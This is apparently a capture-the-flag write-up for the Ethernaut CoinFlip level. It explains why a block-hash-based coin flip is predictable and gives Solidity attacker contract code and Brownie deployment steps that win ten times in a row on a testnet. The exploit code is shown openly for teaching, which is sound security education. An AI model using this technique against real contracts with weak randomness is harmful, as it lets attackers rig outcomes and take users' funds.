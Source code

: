 # CoinFlip

## Objectives

"To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row."

## Solution

Generating pseudo-random numbers that are completely unpredictable is a difficult problem within the blockchain. Predicting a coinflip should have a risk of failing of at least 50%, but if we know what factors are used to generate this pseudo-random number, then we can predict the coinflip accurately with a higher probability of success than the intended 50%.

In this case we can _always_ be right, given that there's 2 factors that generate the coinflip:

1. The variable FACTOR

```js
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

2. The block hash of the previous block to the coinflip converted to integer

```js
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```

Our coinflip is floor of the ratio between `blockValue` and `FACTOR`

```js
uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
```

The problem is then solved by creating an attacker contract that uses the same logic to generate coinflips, but instead to make the guess. Then the guess is plugged into the `flip()` function. 

```js
function callFlip() external {
    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 blockVal = uint256(blockhash(block.number - 1));
    uint256 division = blockVal / factor;
    bool guess = division == 1 ? true : false;
    coinFlipContract.flip(guess);
}
```

## How I did it

I did exactly what I described in the [solution section](#solution), but I inherited from Ownable to create the `CoinFlipAttack` contract as a way to restrict calling the `callFlip()` function only from the deployer of the attacker contract. After coding the contract I did the following steps:

1. Deploy (at: `0xA8834Cc6c91bf94d4FB32D72815C2011CC1c2e15`) the attacker contract which I labeled `CoinFlipAttack.sol`

```python
coinflipattack = CoinFlipAttack.deploy(_from)
```

2. Set the instance of the contract with which to interface. My contract instance of CoinFlip, in address `0x7BDa91C53648D2a17352e4055fe6834FAABbFc95` on the Rinkeby test network.

```python
coinflipattack.setInstance('0x7BDa91C53648D2a17352e4055fe6834FAABbFc95', _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xff97c5818da48c97f36a10a7a4fe54219744bcd6c3b2d56dcb232e6b58b95249

3. Run a loop of 10 iterations calling the `callFlip()` function, which will _always_ be right in its prediction.

```python
for _ in range(10):
    coinflipattack.callFlip(_from | {'allow_revert':True})
```

First tx: Block explorer: https://rinkeby.etherscan.io/tx/0xdc681c4c668321064d661fdb4a256bcff495460a897a1367f6d6180258456ab7

Last tx: Block explorer: https://rinkeby.etherscan.io/tx/

4. Check that we have actually won 10 times in a row by checking the `consecutiveWins` variable in the CoinFlip contract.

```python
wins_assertion = coinflip.consecutiveWins() == 10
print(wins_assertion)
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x137421ce33d24463170860b734fc5fe256c35479e0d53075e491c9112ad7dd34

### Minor tweaks

In order for the `callFlip()` transactions to go through, I had to increase the gas limit for live networks on my brownie config file:

```yaml
networks:
  live:
    gas_limit: "1000000"
```

And also use the parameter `{'allow_revert':True}` when calling `callFlip()`, as that scenario is a possibility in the definition of `flip()` on CoinFlip if the previous block hash matches the next block hash, I guess in order to avoid making multiple guess attempts in the same block.

```python
coinflipattack.callFlip(_from | {'allow_revert':True})
```
